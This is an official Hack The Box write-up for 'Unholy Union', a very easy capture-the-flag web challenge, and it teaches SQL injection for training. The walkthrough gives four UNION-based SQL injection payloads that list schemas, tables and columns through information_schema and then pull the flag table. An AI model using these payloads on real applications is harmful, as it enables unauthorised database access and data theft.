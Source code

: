 ![img](assets/banner.png)


<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    <font size="6">Unholy Union</font>
  20<sup>th</sup> Oct 2024 / Document No. D24.xxx.xxx

  Prepared By: Xclow3n

  Challenge Author: Xclow3n

  Difficulty: <font color=green>Very Easy</font>

  Classification: Official



# [Synopsis](#synopsis)

Unholy Union is a very easy web challenge designed to help players understand and exploit SQL Injection.

# Skills Required
- Basic knowledge of SQL

# Skills Learned
- SQL Injection

# [Solution](#Solution)

Visiting the web app displays the following page:
![img](assets/home.png)

We can perform a search, which updates the SQL query, and clicking the search button shows the results in both the web app and the debug window.
![img](assets/search.png)

Let's add a quote to see if we can break out of the SQL query and inject our own commands.
![img](assets/error.png)

We get a syntax error, which means we can inject SQL. Let's retrieve all the existing databases using the following query:
```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.schemata) -- -
```
![img](assets/schema.png)

Running this query shows a database named `halloween_inventory` in addition to the default ones.

Next, let's fetch all the tables in this database with the following query:

```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA='halloween_inventory') -- -
```
![img](assets/table.png)

We see a table named `flag`. Now, let's find the columns in this table to retrieve data. Use this query:

```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name='flag') -- -
```
![img](assets/column.png)

Now that we know the column and table names, let's fetch the flag using this query:

```
Gun' UNION SELECT NULL, NULL, NULL, NULL, (SELECT GROUP_CONCAT(flag) FROM flag) -- -
```

![img](assets/flag.png)

This completes the challenge! :)
